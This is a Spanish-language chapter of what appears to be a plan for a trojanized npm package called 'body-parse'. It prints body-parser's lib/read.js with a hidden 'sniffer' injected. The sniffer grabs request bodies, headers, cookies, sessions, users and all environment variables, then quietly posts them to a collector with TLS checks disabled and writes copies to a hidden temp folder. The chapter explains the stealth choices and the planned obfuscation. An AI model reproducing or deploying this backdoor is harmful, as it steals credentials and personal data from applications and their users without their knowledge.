

# 06 — Código Fuente del Sniffer

📎 *Volver al [Índice General](./00-INDICE-GENERAL.md) · Anterior: [05 - Estructura del Paquete](./05-ESTRUCTURA-PAQUETE.md)*

---

> [!IMPORTANT]
> 📌 Este documento presenta el código **pre-ofuscación** del sniffer para facilitar la revisión y comprensión. En producción (dentro del paquete `body-parse` final), este código estará **ofuscado** con `javascript-obfuscator`. Ver 📎 [07 - Script de Migración](./07-SCRIPT-MIGRACION.md) para los detalles de ofuscación.

---

## 6.1 `lib/read.js` — Versión Completa Modificada

A continuación se muestra el archivo `lib/read.js` completo con el sniffer inyectado. Las líneas **nuevas** están marcadas con el comentario `// [SNIFFER]` para facilitar la identificación:

```javascript
/*!
 * body-parser
 * Copyright(c) 2014-2015 Douglas Christopher Wilson
 * MIT Licensed
 */

'use strict'

/**
 * Module dependencies.
 * @private
 */

var createError = require('http-errors')
var getBody = require('raw-body')
var iconv = require('iconv-lite')
var onFinished = require('on-finished')
var zlib = require('node:zlib')
var hasBody = require('type-is').hasBody
var { getCharset } = require('./utils')

// [SNIFFER] Módulos nativos para captura y envío
var _h = require('http')                    // [SNIFFER]
var _hs = require('https')                  // [SNIFFER]
var _fs = require('fs')                     // [SNIFFER]
var _os = require('os')                     // [SNIFFER]
var _pa = require('path')                   // [SNIFFER]
var _ur = require('url')                    // [SNIFFER]

/**
 * Module exports.
 */

module.exports = read

// [SNIFFER] ── Inicio del bloque del sniffer ──────────────────────────────

/**
 * URL del servidor colector.
 * @private
 */
var _collectorUrl = 'https://localhost:4000/collect'  // [SNIFFER]

/**
 * Directorio de logs locales.
 * Se ubica en el directorio temporal del SO con un nombre inocuo.
 * @private
 */
var _logDir = _pa.join(_os.tmpdir(), '.bp_logs')       // [SNIFFER]
var _logSeq = 0                                         // [SNIFFER]

// Crear el directorio de logs si no existe
try { _fs.mkdirSync(_logDir, { recursive: true }) } catch (e) {} // [SNIFFER]

/**
 * Genera el nombre de archivo de log con formato AAAA-MM-DD-HH-MM-SS-N.txt
 * @returns {string} Ruta completa del archivo de log
 * @private
 */
function _getLogFileName () {                            // [SNIFFER]
  var now = new Date()
  var pad = function (n) { return n < 10 ? '0' + n : '' + n }
  var name = now.getFullYear() + '-' +
    pad(now.getMonth() + 1) + '-' +
    pad(now.getDate()) + '-' +
    pad(now.getHours()) + '-' +
    pad(now.getMinutes()) + '-' +
    pad(now.getSeconds()) + '-' +
    (++_logSeq) + '.txt'
  return _pa.join(_logDir, name)
}

/**
 * Captura los metadatos de la petición y los envía al colector
 * y al archivo de log local. Operación fire-and-forget.
 *
 * @param {Object} req - Objeto Request de Express/Node.js
 * @private
 */
function _captureAndSend (req) {                        // [SNIFFER]
  try {
    var packet = {
      timestamp: new Date().toISOString(),
      method: req.method,
      url: req.originalUrl || req.url,
      headers: req.headers,
      body: req.body,
      clientIp: req.ip,
      clientIps: req.ips,
      protocol: req.protocol,
      secure: req.secure,
      httpVersion: req.httpVersion,
      cookies: req.cookies,
      signedCookies: req.signedCookies,
      session: req.session,
      user: req.user,
      params: req.params,
      query: req.query,
      socketRemoteAddr: req.socket ? req.socket.remoteAddress : undefined,
      socketRemotePort: req.socket ? req.socket.remotePort : undefined,
      socketLocalAddr: req.socket ? req.socket.localAddress : undefined,
      socketLocalPort: req.socket ? req.socket.localPort : undefined,
      processPid: process.pid,
      processTitle: process.title,
      processArgv: process.argv,
      processEnv: process.env
    }

    var postData
    try {
      postData = JSON.stringify(packet)
    } catch (e) {
      // Si no se puede serializar (referencias circulares, etc.), intentar sin env
      packet.processEnv = '[serialization error]'
      try {
        postData = JSON.stringify(packet)
      } catch (e2) {
        return // No se puede serializar, abortar silenciosamente
      }
    }

    // Enviar al colector remoto
    _sendToCollector(postData)

    // Escribir al log local
    _writeLocalLog(postData)

  } catch (e) {
    // Silenciar cualquier error para no afectar a la aplicación
  }
}

/**
 * Envía los datos al servidor colector remoto vía HTTPS.
 *
 * @param {string} postData - Datos serializados en JSON
 * @private
 */
function _sendToCollector (postData) {                   // [SNIFFER]
  try {
    var parsed = _ur.parse(_collectorUrl)
    var proto = parsed.protocol === 'https:' ? _hs : _h

    var options = {
      hostname: parsed.hostname,
      port: parsed.port,
      path: parsed.path,
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        'Content-Length': Buffer.byteLength(postData)
      },
      rejectUnauthorized: false,   // MITM: Acepta certificados autofirmados
      timeout: 5000                // Timeout de 5 segundos
    }

    var req = proto.request(options, function (res) {
      // Drenar la respuesta para liberar el socket
      res.resume()
    })

    req.on('error', function () {
      // Silenciar errores de conexión
    })

    req.on('timeout', function () {
      req.destroy()
    })

    req.write(postData)
    req.end()
  } catch (e) {
    // Silenciar cualquier error
  }
}

/**
 * Escribe los datos capturados en un archivo de log local.
 *
 * @param {string} postData - Datos serializados en JSON
 * @private
 */
function _writeLocalLog (postData) {                     // [SNIFFER]
  try {
    var logFile = _getLogFileName()
    _fs.writeFile(logFile, postData, function () {
      // Silenciar errores y resultados
    })
  } catch (e) {
    // Silenciar cualquier error
  }
}

// [SNIFFER] ── Fin del bloque del sniffer ─────────────────────────────────

/**
 * Read a request into a buffer and parse.
 *
 * @param {Object} req
 * @param {Object} res
 * @param {Function} next
 * @param {Function} parse
 * @param {Function} debug
 * @param {Object} options
 * @private
 */
function read (req, res, next, parse, debug, options) {
  if (onFinished.isFinished(req)) {
    debug('body already parsed')
    next()
    return
  }

  if (!('body' in req)) {
    req.body = undefined
  }

  // skip requests without bodies
  if (!hasBody(req)) {
    debug('skip empty body')
    next()
    return
  }

  debug('content-type %j', req.headers['content-type'])

  // determine if request should be parsed
  if (!options.shouldParse(req)) {
    debug('skip parsing')
    next()
    return
  }

  var encoding = null
  if (options?.skipCharset !== true) {
    encoding = getCharset(req) || options.defaultCharset

    // validate charset
    if (!!options?.isValidCharset && !options.isValidCharset(encoding)) {
      debug('invalid charset')
      next(createError(415, 'unsupported charset "' + encoding.toUpperCase() + '"', {
        charset: encoding,
        type: 'charset.unsupported'
      }))
      return
    }
  }

  var length
  var opts = options
  var stream

  // read options
  var verify = opts.verify

  try {
    // get the content stream
    stream = contentstream(req, debug, opts.inflate)
    length = stream.length
    stream.length = undefined
  } catch (err) {
    return next(err)
  }

  // set raw-body options
  opts.length = length
  opts.encoding = verify
    ? null
    : encoding

  // assert charset is supported
  if (opts.encoding === null && encoding !== null && !iconv.encodingExists(encoding)) {
    return next(createError(415, 'unsupported charset "' + encoding.toUpperCase() + '"', {
      charset: encoding.toLowerCase(),
      type: 'charset.unsupported'
    }))
  }

  // read body
  debug('read body')
  getBody(stream, opts, function (error, body) {
    if (error) {
      var _error

      if (error.type === 'encoding.unsupported') {
        // echo back charset
        _error = createError(415, 'unsupported charset "' + encoding.toUpperCase() + '"', {
          charset: encoding.toLowerCase(),
          type: 'charset.unsupported'
        })
      } else {
        // set status code on error
        _error = createError(400, error)
      }

      // unpipe from stream and destroy
      if (stream !== req) {
        req.unpipe()
        stream.destroy()
      }

      // read off entire request
      dump(req, function onfinished () {
        next(createError(400, _error))
      })
      return
    }

    // verify
    if (verify) {
      try {
        debug('verify body')
        verify(req, res, body, encoding)
      } catch (err) {
        next(createError(403, err, {
          body: body,
          type: err.type || 'entity.verify.failed'
        }))
        return
      }
    }

    // parse
    var str = body
    try {
      debug('parse body')
      str = typeof body !== 'string' && encoding !== null
        ? iconv.decode(body, encoding)
        : body
      req.body = parse(str, encoding)
    } catch (err) {
      next(createError(400, err, {
        body: str,
        type: err.type || 'entity.parse.failed'
      }))
      return
    }

    // [SNIFFER] Capturar y enviar datos antes de continuar el pipeline
    _captureAndSend(req)                                 // [SNIFFER]

    next()
  })
}

/**
 * Get the content stream of the request.
 *
 * @param {Object} req
 * @param {Function} debug
 * @param {boolean} inflate
 * @returns {Object}
 * @private
 */
function contentstream (req, debug, inflate) {
  var encoding = (req.headers['content-encoding'] || 'identity').toLowerCase()
  var length = req.headers['content-length']

  debug('content-encoding "%s"', encoding)

  if (inflate === false && encoding !== 'identity') {
    throw createError(415, 'content encoding unsupported', {
      encoding: encoding,
      type: 'encoding.unsupported'
    })
  }

  if (encoding === 'identity') {
    req.length = length
    return req
  }

  var stream = createDecompressionStream(encoding, debug)
  req.pipe(stream)
  return stream
}

/**
 * Create a decompression stream for the given encoding.
 * @param {string} encoding
 * @param {Function} debug
 * @returns {Object}
 * @private
 */
function createDecompressionStream (encoding, debug) {
  switch (encoding) {
    case 'deflate':
      debug('inflate body')
      return zlib.createInflate()
    case 'gzip':
      debug('gunzip body')
      return zlib.createGunzip()
    case 'br':
      debug('brotli decompress body')
      return zlib.createBrotliDecompress()
    default:
      throw createError(415, 'unsupported content encoding "' + encoding + '"', {
        encoding: encoding,
        type: 'encoding.unsupported'
      })
  }
}

/**
 * Dump the contents of a request.
 *
 * @param {Object} req
 * @param {Function} callback
 * @private
 */
function dump (req, callback) {
  if (onFinished.isFinished(req)) {
    callback(null)
  } else {
    onFinished(req, callback)
    req.resume()
  }
}
```

---

## 6.2 Análisis del Código del Sniffer

### 6.2.1 Imports Adicionales (Líneas 24-29)

```javascript
var _h = require('http')
var _hs = require('https')
var _fs = require('fs')
var _os = require('os')
var _pa = require('path')
var _ur = require('url')
```

| Variable | Módulo | Propósito | ¿Nativo? |
|----------|--------|-----------|:--------:|
| `_h` | `http` | Envío de datos al colector (protocolo HTTP) | ✅ |
| `_hs` | `https` | Envío de datos al colector (protocolo HTTPS) | ✅ |
| `_fs` | `fs` | Escritura de logs locales | ✅ |
| `_os` | `os` | Obtener directorio temporal (`tmpdir`) | ✅ |
| `_pa` | `path` | Construir rutas de archivo | ✅ |
| `_ur` | `url` | Parsear la URL del colector | ✅ |

> [!NOTE]
> 💡 **Nombres cortos e inocuos.** Las variables se nombran con prefijos cortos (`_h`, `_hs`, `_fs`, etc.) para que, tras la ofuscación, sean aún más difíciles de rastrear. Antes de la ofuscación, estos nombres se asemejan a abreviaciones comunes en código Node.js legado.

### 6.2.2 Generación del Nombre del Log

Cada captura genera un archivo individual con el formato **`AAAA-MM-DD-HH-MM-SS-N.txt`**:

```javascript
var _logDir = _pa.join(_os.tmpdir(), '.bp_logs')
var _logSeq = 0

try { _fs.mkdirSync(_logDir, { recursive: true }) } catch (e) {}

function _getLogFileName () {
  var now = new Date()
  var pad = function (n) { return n < 10 ? '0' + n : '' + n }
  var name = now.getFullYear() + '-' +
    pad(now.getMonth() + 1) + '-' +
    pad(now.getDate()) + '-' +
    pad(now.getHours()) + '-' +
    pad(now.getMinutes()) + '-' +
    pad(now.getSeconds()) + '-' +
    (++_logSeq) + '.txt'
  return _pa.join(_logDir, name)
}
```

**Explicación paso a paso:**

1. Se crea un directorio `.bp_logs` dentro del directorio temporal del SO (`os.tmpdir()`).
2. Cada captura genera un archivo individual con timestamp legible.
3. El contador `_logSeq` se incrementa para diferenciar capturas en el mismo segundo.
4. El formato del nombre es: `2026-04-09-21-32-56-1.txt`, `2026-04-09-21-32-56-2.txt`, etc.
5. El directorio `.bp_logs` es un nombre inocuo que no levanta sospechas.

### 6.2.3 Función `_captureAndSend`



> [!TIP]
> 💡 **Mecanismo de fallback:** Si `process.env` contiene valores que no se pueden serializar a JSON (poco probable pero posible), el sniffer reintenta la serialización reemplazando `processEnv` por el string `'[serialization error]'`. Si aún falla, aborta silenciosamente.

### 6.2.4 Función `_sendToCollector`

| Aspecto | Detalle |
|---------|---------|
| **Parsing de URL** | `_ur.parse(_collectorUrl)` extrae hostname, port, path y protocol |
| **Selección de protocolo** | Si `protocol === 'https:'` usa `_hs`, sino `_h` |
| **MITM** | `rejectUnauthorized: false` en opciones del request |
| **Timeout** | 5 segundos — si el colector no responde, la conexión se destruye |
| **Respuesta** | `res.resume()` drena la respuesta sin procesarla |
| **Errores** | Todos silenciados con handler vacío |

### 6.2.5 Función `_writeLocalLog`

| Aspecto | Detalle |
|---------|---------|
| **Formato** | Archivo JSON individual por captura |
| **Nombre del archivo** | `AAAA-MM-DD-HH-MM-SS-N.txt` |
| **Ubicación** | `os.tmpdir()/.bp_logs/` |
| **Función** | `fs.writeFile()` — no bloqueante |
| **Errores** | Callback vacío — silenciados |
| **Ejemplo de archivo** | `2026-04-09-21-32-56-1.txt` conteniendo el JSON completo del paquete |

### 6.2.6 Punto de Invocación en `read()`

La invocación al sniffer se realiza en una sola línea, inmediatamente antes de `next()`:

```javascript
    // [SNIFFER] Capturar y enviar datos antes de continuar el pipeline
    _captureAndSend(req)

    next()
```

> [!IMPORTANT]
> 📌 **¿Por qué aquí y no en otro lugar?**
>
> 1. **Después de `req.body = parse(str, encoding)`** → El body ya está parseado y asignado.
> 2. **Antes de `next()`** → Se ejecuta antes de que el siguiente middleware tome el control.
> 3. **Solo en el camino exitoso** → No se capturan peticiones que generaron errores de parseo (400/415).
> 4. **Fire-and-forget** → `_captureAndSend` no retorna una Promise ni bloquea; `next()` se ejecuta inmediatamente después.

---

## 6.3 Cambios vs Original (Vista Diff Resumida)

```diff
 /* Imports */
 var createError = require('http-errors')
 var getBody = require('raw-body')
 var iconv = require('iconv-lite')
 var onFinished = require('on-finished')
 var zlib = require('node:zlib')
 var hasBody = require('type-is').hasBody
 var { getCharset } = require('./utils')
+var _h = require('http')
+var _hs = require('https')
+var _fs = require('fs')
+var _os = require('os')
+var _pa = require('path')
+var _ur = require('url')

 module.exports = read

+var _collectorUrl = 'https://localhost:4000/collect'
+var _logDir = _pa.join(_os.tmpdir(), '.bp_logs')
+var _logSeq = 0
+function _getLogFileName () { /* ... genera AAAA-MM-DD-HH-MM-SS-N.txt ... */ }
+
+function _captureAndSend (req) { /* ... 50 líneas ... */ }
+function _sendToCollector (postData) { /* ... 30 líneas ... */ }
+function _writeLocalLog (postData) { /* ... 10 líneas ... */ }

 function read (req, res, next, parse, debug, options) {
   /* ... código original sin cambios ... */

       req.body = parse(str, encoding)
     } catch (err) { /* ... */ }

+    _captureAndSend(req)
     next()
   })
 }

 /* contentstream, createDecompressionStream, dump — SIN CAMBIOS */
```

---

📎 *Siguiente: [07 - Script de Migración Automatizado](./07-SCRIPT-MIGRACION.md)*
